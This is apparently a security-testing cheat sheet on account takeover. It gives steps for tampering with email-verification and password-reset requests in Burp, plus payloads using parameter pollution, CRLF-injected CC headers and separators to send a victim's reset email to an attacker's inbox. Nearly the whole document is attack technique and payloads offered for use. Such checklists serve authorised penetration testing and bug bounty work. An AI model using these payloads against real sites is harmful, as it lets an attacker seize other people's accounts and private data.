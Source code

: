 # Account takeover

## Email verification
* Signup with your email
* Open email verification link
* Set the password
* Capture the request in burp
* Replace your email with the victim one

## Password reset
* Request password reset for your account
* Open the link sent in your email
* Intercept the reset password request
* Replace your email with another one

## Parameter pollution
Try to add a second parameter to a reset password request to test the server
validation:
```
email=victim@xyz.tld&email=attacker@xyz.tld
```

## Carbon copy
Try to get a copy of the mail containing the reset password in you inbox by
using the carbon copy functionality of mail:
```
email=victim@xyz.tld%0a%0dcc:attacker@xyz.tld
```

## Separators
Add separators to a reset password request in order to try to get a copy of the
reset mail to your inbox:
```
email=victim@xyz.tld,attacker@xyz.tld
email=victim@xyz.tld%20attacker@xyz.tld
email=victim@xyz.tld|attacker@xyz.tld
{"email": ["victim@xyz.tld","attacker@xyz.tld"]}
```
